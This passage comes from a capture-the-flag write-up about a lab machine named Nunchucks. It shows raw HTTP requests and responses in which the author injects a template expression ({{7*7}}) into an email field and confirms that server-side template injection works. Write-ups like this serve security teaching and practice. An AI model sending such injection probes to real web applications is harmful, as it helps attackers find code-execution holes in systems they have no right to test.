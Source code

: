 ```http
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"email":"test@nunchucks.htb"}
```

The email address was sent back in the response. 

```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Wed, 20 Apr 2022 00:00:54 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 91
Connection: close
X-Powered-By: Express
ETag: W/"5b-zlikhMBR+YEHay4+b3nr6ZWQ36s"

{"response":"You will receive updates on the following email address: test@nunchucks.htb."}
```

I tried using [Server Side Template Injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) (SSTI) on the email. 

```http
POST /api/submit HTTP/1.1
Host: store.nunchucks.htb
Cookie: _csrf=GF8zEz4oerOlosiTsgNYIpEA
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://store.nunchucks.htb/
Content-Type: application/json
Origin: https://store.nunchucks.htb
Content-Length: 19
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"email":"{% raw %}{{7*7}}{% endraw %}"}
```

The '7*7' came back as 49. This meant that the code between the {% raw %}{{ }}{% endraw %} was executed by the server.

```http
HTTP/1.1 200 OK
 Server: nginx/1.18.0 (Ubuntu)
 Date: Tue, 19 Apr 2022 00:04:05 GMT
 Content-Type: application/json; charset=utf-8
 Content-Length: 75
 Connection: close
 X-Powered-By: Express
 ETag: W/"4b-X79sUiArPHkUd9eYQd+2RjLRKtA"

 {"response":"You will receive updates on the following email address: 49."}
```
